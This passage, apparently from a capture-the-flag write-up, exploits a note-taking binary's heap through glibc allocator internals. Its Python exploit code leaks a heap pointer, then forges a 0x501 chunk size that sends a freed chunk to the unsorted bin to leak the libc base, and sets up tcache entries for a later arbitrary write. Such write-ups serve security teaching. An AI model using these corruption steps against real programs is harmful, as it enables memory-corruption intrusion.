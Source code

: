 We now have this :  
```
┌──────────────────────────────────────────────────┐
│  BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB  │
├──────────────────────────────────────────────────┤
│ active note (size : 0x1000)                      │
├──────────────────────────────────────────────────┤
│ free'd note (size : 0) (contains a heap pointer) │
└──────────────────────────────────────────────────┘
```
We juste have have to call `show_note` to get our heap pointer :  
```py
heap_base = u64(show_note()[0x114:0x114+8]) - 0x10
success(f"heap base @ {hex(heap_base)}")
```


# Leaking libc base address
To get a libc address, we have to free a chunk that will end up in unsorted bin.  
So the idea is to create a large fake chunk of size 0x500 (large enough to not fit in a tcache bin), add padding to avoid `double free or corruption (!prev)` error caused by the lack of the `PREV_INUSE` bit in the next chunk, and then free this large chunk, malloc will let a libc pointer.

```py
info("leaking libc address...")
# will be used to leak data
create_note(0x200)
delete_note()

# its size will be changed with 0x500
create_note(127)
delete_note()

# padding to pass security checks (PREV_INUSE for next chunk)
create_note(0x80)
# add 2 entries in tcache bin 0x100 - will be useful for write-what-where
for _ in range(2):
    create_note(0x80)
    edit_note(b"A"*127 + b"B"*117 + p64(0x101))
    delete_note()

for _ in range(4):
    create_note(0x80)
create_note(0x91) # chunk with note->size=0x91, so if we interpret this value as a chunk size which have PREV_INUSE at the right place to pass security checks

create_note(127)
# modify chunk size with 0x501, because it will not fit in tcache bins
# so once free'd, the chunk will be in unsorted bin
edit_note(b"A"*127 + b"B"*117 + p64(0x501))
delete_note()

create_note(0x200)
edit_note(b"A"*127 + b"B"*117 + p64(0x291) + p32(0x1000))
libc_base = u64(show_note()[0x28c:0x28c+8]) - 0x1ebbe0
success(f"libc base @ {hex(libc_base)}")

# malloc will use in priority unsorted bin instead of creating new chunks from top chunk
```
